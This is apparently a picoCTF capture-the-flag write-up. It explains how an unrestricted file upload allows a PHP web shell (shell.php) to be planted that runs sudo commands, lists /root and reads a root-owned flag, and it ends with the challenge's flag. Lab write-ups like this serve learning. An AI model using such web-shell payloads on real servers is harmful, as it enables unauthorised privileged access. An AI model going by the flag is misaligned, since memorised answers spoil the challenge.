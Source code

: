 starting the maching
i knew since i read the description that we will net for crafted program in order to do privilage esclation through file upload
<br>
after we test the file upload we found that its not care about the type of file<br>

we mad a custom php code to get privilage esclation: shell.php

```shell.php
<?php echo exec("sudo -i"); ?> # to get the privilages and test if its working
```

```shell.php
<?php echo exec("sudo ls /root"); ?> # to check the files of root directory
```

we found that there is a file called flag.txt iside /root directory.

```shell.php
<?php echo exec("sudo cat /root/flag.txt"); ?> # readubg the flag
```


flag could be different: picoCTF{wh47_c4n_u_d0_wPHP_5f3c22c0}
